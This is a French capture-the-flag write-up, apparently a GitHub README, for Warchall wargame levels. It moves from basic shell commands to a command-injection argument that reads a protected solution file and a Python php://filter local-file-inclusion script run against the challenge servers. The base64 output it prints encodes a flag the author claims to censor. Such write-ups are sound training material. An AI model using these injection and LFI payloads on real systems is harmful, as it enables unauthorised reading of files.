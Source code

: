 ## 00_welcome

La solution pour ce premier challenge warchall se trouve dans le fichier README.md. Pour affichier son contenu, on peut utiliser la commande cat:
```
cat README.md
```

## 01_choice_tree
Pour commencer ce challenge, il faut d'abord executer la commande __ls__ pour voir le contenu du repertoire actuelle. On a plusieurs dossier et pour eviter de fouiller chaque dossier pour trouver la solution, on peput executer la commande :
```
du -b -a
```
qui affiche tout les contenues des dossier et sous-dossier. On peut apercevoir alors une fichier SOLUION.txt dans __blue/hats/grey/solution/patience__ et pour voir son contenu il suffit juste d'executer la commande :
```
cat ./blue/hats/grey/solution/patience/SOLUTION.txt
```
## 02
Comme on a fait dans le challenge précédent, on execute directe la commande 
```
du -b -a
```
pour voir tout son contenu. Sur la sortie affiché, après avoir examiné tout les contenu avec la command __cat__, on peut trouver la solution dans __./.porb/.solution__

## 03

Dans ce challenge, si on commence avec la commande __ls__ ce qui liste le contenu du repertoire, rien ne s'affiche à la sortie, donc le resultat est probablement dans un fichier caché. Pour afficher ce fichier caché on execute la commande:
```
ls -al
```
ce qui liste tout le contenue du repertoire et les autorisations qui vont avec, y compris les fichier cachés. On peut alors voir un fichier nommé __bash_history__ et pour voir son contenu il suffit de faire:
```
cat ./.bash_history
```
Et on a notre flag

## 04_kwisatz 

Dans ce repertoire on a deux fichier: __README2.txt__ et __README2.md__, dans le fichier README2.txt, il y a un texte indiquant qu'il y a quelque chose de spéciale dans README2.md, si on execute la commande cat sur ce fichier, il affiche __no read permission__ ce qui veut dire que ce fichier n'a pas d'autorisation de lecture, pour ajouter cette autorisation, il faut executer la commande __chmod__ suivie de __+r__ qui signifie read:
```
chmod +r README2.md
```
Avec les autorisation ajouté nous pouvons maintenant voir son contenu et avoir notre flag.
```
cat README2.md
```

## 05_privacy

Dans ce challenge, il y a un fichier README.md dans le repertoire, il suffit juste donc d'executer la commande cat sur le fichier pour voir son contenu, rien de plus.


## 10_choose_your_path

#### Étape 1 : Allez dans /home/level/10_choose_your_path.

Il y a 04 fichiers dans ce répertoire, mais nous nous intéressons ici à charp.c (le fichier de code C), charp l'exécutable compilé de charp.c et solution.txt.

La clé de ce niveau est de parvenir à faire en sorte que charp produise une sortie d'échec de sortie.

#### Étape 2 : Créez un fichier dans votre répertoire utilisateur en exécutant cette commande : touch /home/user/username/un_fichier.

Il faut remplacer username par le nom utilisé dans le serveur, ici mon nom est judicael ce qui fait que je dois execute la commande:
```
touch /home/user/judicael/un_fichier
```

Étape 3 : Maintenant, vous devez écrire cette ligne de commande : 

```
./charp "randomWords; cat solution.txt > /home/user/judicael/un_fichier.
```

Voici ce que fait cette commande: 

    Le premier argument [randomWords] : mettez simplement un mot aléatoire là-dedans, ce premier argument est nécessaire pour remplir la condition de produire un EXIT_FAILURE.
    Deuxième argument [solution.txt>~/un_fichier] : cet argument envoie le contenu de solution.txt vers le fichier que nous avons créé à l'étape 2 après l'échec de sortie


On obtien ceci dans la sortie: 

```
Counting randomWords; cat solution.txt> /home/user/judicael/yourfile ... 
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
Floating point exception
```
Exactement ce que l'on souhaite. Maintenant on va dans le repertoire ou on a créer notre fichier de toute à l'heure, c'est à dire dans __/home/user/judicael/__ , et il ne reste plus qu'à afficher le contenu du fichier avec la commande cat:

```
cat un_fichier
```
Le contenu est ceci (le flag est censuré):

    #!/C:\windows\system32\ed

    Congratulations hacker,

    You have achieved what only a few achieve.
    Kinda.

    The flag or solution for this challenge is: ***************

## 11_choose_your_path2


## 12_pytong

Pour avoir notre flag sur ce challenge, il nous faut executer un fichier executable __pytong__ présent dans ce repertoire suivie de quelques arguments.

```
./pytong <(echo foo)>
```
Il affiche alors dans la sortie des text et juste en bas il y a une ligne __\<?php return '********************'?>__, les étoiles est une phrase qui est notre flag, mais il ne faut pas l'afficher dans le write up

## 14_live_fi

Pour ce challenge nous avons besoin d'envoyer une requête spécifique à l'url du challenge: __http://lfi.warchall.net/index.php__ .Pour se faire, nous allons utiliser le script python ci-dessous:

```Python
import requests


url = "http://lfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```

Ce code envoye une requete à l'url et accéder au fichier solution.php en le convertissant en base 64. En executant le code, on obtient dans la sortie ceci :

```
PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K
```
Pour le moment cela ne ressemble pas au flag qu'on recherche, et pourtant c'est notre flag mais il faut encore le décoder. Comment faire? C'est simple il existe sur internet des sites qui propose ce genre de service. Après avoir décodé notre flag, on obtien du texte lissible, y compris notre flag.

## 15_live_rfi

Les étapes pour trouver le flag pour ce challenge est le même que pour __14_live_fi__ , la seul différence est l'url pour faire la requête. Il faut donc faire un petit changement dans notre code python

```Python
import requests

url = "http://rfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```
Ensuite il faut juste décoder la sortie obtenu.

## 20_live_rce